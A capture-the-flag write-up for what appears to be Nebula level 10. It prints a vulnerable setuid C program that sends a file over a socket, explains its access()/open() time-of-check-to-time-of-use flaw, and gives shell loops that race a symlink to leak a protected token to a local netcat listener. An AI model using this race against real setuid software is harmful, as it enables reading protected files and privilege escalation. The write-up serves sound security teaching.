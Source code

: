 # level 10

```c
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);

      memset(&sin, 0, sizeof(struct sockaddr_in));
      sin.sin_family = AF_INET;
      sin.sin_addr.s_addr = inet_addr(host);
      sin.sin_port = htons(18211);

      if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
          printf("Unable to connect to host %s\n", host);
          exit(EXIT_FAILURE);
      }

#define HITHERE ".oO Oo.\n"
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
```

This is a [time to check to time of use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)
vulnerability. In this case the function access use the real UID (this is your
ID) while the open use the effective UID (this is the ID by who is running the
process). In this case if we see the output of "ls -hal /home/flag10" we will
see that the real UID is "level10", while the effective UID is "flag10" for the
file flag10.

in this case we need to create a link to file that is owned by level10 than
before the function open is called we need to change the link to point to the
file "token".

```bash
touch /home/level10/token
while :
do 
    ln -fs /home/level10/test /tmp/token;
    ln -fs /home/flag10/token /tmp/token;
done
```

In another terminal run:

```bash
while :
do
    /home/flag10/flag10 /tmp/token 127.0.0.1;
done
```

And in another one run:

```bash
nc -lk 18211
```

At some point when the first while will change after the acces and before the
open in the flag10 program, we will see on netcat the content of the file token.
Now we can use it as password to login as flag10 and run getflag.
